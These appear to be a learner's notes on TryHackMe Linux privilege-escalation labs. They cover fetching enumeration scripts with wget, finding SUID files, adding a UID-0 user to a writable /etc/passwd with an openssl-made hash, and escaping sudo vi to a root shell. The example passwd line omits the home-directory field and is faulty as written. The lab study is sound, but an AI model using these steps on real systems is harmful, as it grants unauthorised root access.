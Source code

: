 # Linux Privilige Escalation

## Common Linux PrivEsc
> https://tryhackme.com/room/commonlinuxprivesc

What does "privilege escalation" mean?  

At it's core, Privilege Escalation usually involves going from a lower permission to a higher permission. More technically, it's the exploitation of a vulnerability, design flaw or configuration oversight in an operating system or application to gain unauthorized access to resources that are usually restricted from the users.

![privesc](./media/16-common-privesc.png)

There are two main privilege escalation variants:

- Horizontal privilege escalation: This is where you expand your reach over the compromised system by taking over a different user who is on the same privilege level as you
- Vertical privilege escalation (privilege elevation): This is where you attempt to gain higher privileges or access, with an existing account that you have already compromised

### Enumeration 
LinEnum is a simple bash script that performs common commands related to privilege escalation, saving time and allowing more effort to be put toward getting root

https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
```bash 
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```
### Abusing SUID/GUID Files

We already know that there is SUID capable files on the system, thanks to our LinEnum scan. However, if we want to do this manually we can use the command: `find / -perm -u=s -type f 2>/dev/null` to search the file system for SUID/GUID files. Let's break down this command.

```bash
$ find / -perm -u=s -type f 2>/dev/null

find - Initiates the "find" command
/ - Searches the whole file system
-perm - searches for files with specific permissions
-u=s - Any of the permission bits mode are set for the file. Symbolic modes are accepted in this form
-type f - Only search for files
2>/dev/null - Suppresses errors

```

### Exploiting Writable /etc/passwd

Understanding /etc/passwd

The /etc/passwd file stores essential information, which  is required during login. In other words, it stores user account information. The /etc/passwd is a plain text file. It contains a list of the system’s accounts, giving for each account some useful information like user ID, group ID, home directory, shell, and more.

The /etc/passwd file should have general read permission as many command utilities use it to map user IDs to user names. However, write access to the /etc/passwd must only limit for the superuser/root account. When it doesn't, or a user has erroneously been added to a write-allowed group. We have a vulnerability that can allow the creation of a root user that we can access.

The /etc/passwd file contains one entry per line for each user (user account) of the system. All fields are separated by a colon : symbol. Total of seven fields as follows. Generally, /etc/passwd file entry looks as follows:

    test:x:0:0:root:/root:/bin/bash

[as divided by colon (:)]

- Username: It is used when user logs in. It should be between 1 and 32 characters in length.
- Password: An x character indicates that encrypted password is stored in /etc/shadow file. Please note that you need to use the passwd command to compute the hash of a password typed at the CLI or to store/update the hash of the password in /etc/shadow file, in this case, the password hash is stored as an "x".
- User ID (UID): Each user must be assigned a user ID (UID). UID 0 (zero) is reserved for root and UIDs 1-99 are reserved for other predefined accounts. Further UID 100-999 are reserved by system for administrative and system accounts/groups.
- Group ID (GID): The primary group ID (stored in /etc/group file)
- User ID Info: The comment field. It allow you to add extra information about the users such as user’s full name, phone number etc. This field use by finger command.
- Home directory: The absolute path to the directory the user will be in when they log in. If this directory does not exists then users directory becomes /
- Command/shell: The absolute path of a command or shell (/bin/bash). Typically, this is a shell. Please note that it does not have to be a shell.

**How to exploit a writable /etc/passwd**

It's simple really, if we have a writable /etc/passwd file, we can write a new line entry according to the above formula and create a new user! We add the password hash of our choice, and set the UID, GID and shell to root. Allowing us to log in as our own root user!

`openssl passwd -1 -salt [salt] [password]`
`openssl passwd -1 -salt hacker tryhackme_password`

```
user7@polobox:/home/user3$ openssl passwd -1 -salt hacker tryhackme_password
$1$hacker$USbXjKgMZxKTGtRhS57M31
user7@polobox:/home/user3$ openssl passwd -1 -salt new 123
$1$new$p7ptkEKU1HnaHpRtzNizS1
```

to create new user
```
# template
username:passwordhash:0:0:root:/root:/bin/bash
# our test 
thm:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/bin/bash

# su thm :with the password use added
```

### Escaping Vi Editor

use `sudo -l`
```
user8@polobox:/home/user3$ sudo -l
Matching Defaults entries for user8 on polobox:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user8 may run the following commands on polobox:
(root) NOPASSWD: /usr/bin/vi
```

search in : https://gtfobins.github.io/

to elevate
```
sudo vi
# once inside type
:!sh
# this will pop you a shell

# id 
uid=0(root)
```



## Linux PrivEsc
> https://tryhackme.com/room/linuxprivesc

wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh; chmod +x ./lse.sh
